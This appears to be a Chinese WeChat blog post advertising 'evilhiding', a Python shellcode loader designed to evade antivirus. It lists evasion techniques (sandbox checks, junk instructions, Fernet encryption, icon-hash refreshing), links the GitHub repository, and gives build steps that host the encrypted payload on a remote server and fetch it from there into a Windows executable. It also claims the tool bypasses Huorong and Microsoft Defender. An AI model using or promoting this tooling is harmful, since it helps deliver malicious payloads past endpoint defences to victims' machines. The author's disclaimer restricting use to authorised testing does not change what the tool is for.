 #  evilhiding：一款好用的shellcode免杀工具

原创 coleak  [ 渗透测试安全攻防 ](javascript:void\(0\);)

**渗透测试安全攻防** ![]()

微信号 coleakandyueyiyi

功能介绍 分享一些web安全、代码审计、渗透测试、红队攻防、漏洞复现、CTF以及个人经验。成分复杂，期待和各位师傅一起进步

____

___发表于_

收录于合集

#免杀 1 个

#内网安全 24 个

#python 2 个

#安全工具 8 个

#开源工具 3 个

> 关注并星标🌟 一起学安全❤️
>
> 作者：coleak  
>
> 首发于公号：渗透测试安全攻防
>
> 字数：5352
>
> 声明：仅供学习参考，请勿用作违法用途

 **目录**

  * 工具浅析

  * 项目地址

  * 用法

  * 免杀测试

  * 声明

# evilhiding

shellcode loader,bypassav,免杀工具，一款基于python的shellcode免杀加载器

## 工具浅析

  * 远控条件触发防沙箱
  * 花指令干扰
  * loader和shellcode进行fernet加密
  * 触发器混淆干扰特征码
  * 自动刷新ico图片的md5，防止图标特征码被查杀

## 项目地址

github开源，求个stars嘻嘻嘻(stars是更新的动力)

    
    
    https://github.com/coleak2021/evilhiding.git  
    

## 用法

  * 安装依赖

    
    
    pip install -r requirements.txt  
    

  * 执行main.py

    
    
    将shellcode填入main.py  
    python main.py #会生成a.txt和b.py  
    

  * 将a.txt放入vps，并将a.txt的url填入b.py中，再执行create.py

    
    
    例如：url='http://192.168.52.129/a.txt'  
    python create.py  
    dist目录下生成HipsMain.exe  
    

 **仅支持windows系统编译!**

##  免杀测试

 **过火绒**

![]()

 **过defender**

![]()

 **动态执行**

![]()

##  声明

  * 仅限用于技术研究和获得正式授权的测试活动。由于传播、利用本工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，工具作者不为此承担任何责任。
  * 工具并没有多少技术含量，站在前辈肩膀上造轮子而已
  * 不能免杀可以提Issues，stars是持续更新的动力，嘻嘻嘻。

  

  

文章首发于：渗透测试安全攻防

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看


